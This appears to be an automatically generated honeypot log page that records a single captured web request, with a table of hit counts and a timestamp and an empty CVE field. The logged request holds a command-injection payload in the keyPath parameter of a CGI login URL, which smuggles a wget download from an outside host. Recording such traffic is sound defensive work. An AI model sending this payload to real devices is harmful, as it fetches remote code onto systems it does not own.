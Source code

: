 # Analysis for /cgibin/mainfunction.cgi&action=login&keyPath=wget+https%3A%2F%2F2no.co/2EULU5&loginUser=a&loginPwd=a
| POTS | COUNT | CVE | FILE CREATED |
|---|---|---|---|
| 16 | 16 | | 220110-033754 |

## CVE: 